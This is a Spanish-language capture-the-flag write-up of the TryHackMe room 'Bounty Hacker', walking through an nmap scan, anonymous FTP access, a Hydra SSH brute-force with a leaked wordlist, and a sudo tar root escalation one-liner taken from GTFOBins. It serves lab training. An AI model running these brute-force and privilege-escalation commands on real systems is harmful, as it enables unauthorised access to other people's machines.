 ```yaml
---
layout: post
author: Temerio
---
```

![Bounty Hacker](https://i.imgur.com/qodkcem.jpg)
*You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!*

Puedes encontrar la Room [aquí](https://tryhackme.com/room/cowboyhacker) 

## Reconnaissance

```bash
┌──(temerio㉿Hackademy)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 -Pn 10.10.107.126
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 16:38 EDT
Nmap scan report for 10.10.107.126
Host is up (0.27s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds
```
Vemos 3 puertos abiertos y nos conectamos al sitio web(Port 80)
![WebPage](https://i.imgur.com/swkGsAb.png?1)
Al no encontrar nada probamos con el siguiente puerto FTP (Port 21) e intentamos loguearnos como "Anonymous".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ftp 10.10.107.126    
Connected to 10.10.107.126.
220 (vsFTPd 3.0.3)
Name (10.10.107.126:temerio): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
Al dejarnos ingresar procedemos a listar el contenido.
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
El File Transfer Protocol (FTP) contiene 2 archivos llamados:
*locks.txt
*task.txt

Procedemos a descargarlo mediante el comando "get".
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (2.5071 MB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (535.5343 kB/s)
```
Una vez descargados los archivos procedemos a visualizarlo en nuestra terminal mediante el comando "cat".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Podemos visualizar un nombre en este archivo llamado "lin" este nos puede servir más adelante, continuemos con el siguiente archivo.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat locks.txt       
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Todo esto se parece a un diccionario de fuerza bruta, usaremos 'Hydra' para intentar acceder al sistema.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ hydra -l lin -P /home/temerio/Desktop/Thm/BountyHacker/locks.txt 10.10.107.126 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-28 18:53:45
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.107.126:22/
[22][ssh] host: 10.10.107.126   login: lin   password: (Pass)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-28 18:53:56
```
Mediante Hydra logramos conseguir la contraseña para loguearnos por SSH (Port 22).
Procedemos a conectarnos a la PC de lin:
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ssh lin@10.10.107.126                                                                  
The authenticity of host '10.10.107.126 (10.10.107.126)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.107.126' (ECDSA) to the list of known hosts.
lin@10.10.107.126's password: (UsarPass)
```
```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ whoami
lin
lin@bountyhacker:~/Desktop$ 

```
Logramos ingresar con exito, estamos en la Pc de lin, ahora debemos ver que archivos tiene.
```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
```
Encontramos la Flag del USER.
```bash
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{UserFlag}
```
Lo que ahora queda es encontrar una manera de escalar nuestros privilegios para convertirnos en root y eventualmente conseguir la flag de root.
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ahora sabemos que el usuario lin tiene permiso para ejecutar **/bin/tar** como root, esto podría ser de gran ayuda para escalar privilegios.

Mi primer lugar es ir siempre a https://gtfobins.github.io/ para buscar posibles comandos para escalar privilegios mediante un binario específico con permisos especiales.
![GTFObins](https://i.imgur.com/Oh6qmye.png)
Busque **tar** en la barra de búsqueda y haga clic en la misma, desplácese hacia abajo hasta SUDO.
![GTFObinsudo](https://i.imgur.com/1gqBJ48.png)

Siempre debes leer la descripción. Se ve bastante bien para mí, no puedo resistirme a ejecutarlo y obtener root. Vamos a ver. Dedos cruzados..
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```
Hemos elevado con éxito nuestros privilegios y podemos confirmar que ahora somos root.
Tengo una última cosa que hacer y hemos terminado.. Necesitamos obtener la Flag de Root.
```bash
cat /root/root.txt
THM{RootFlag}
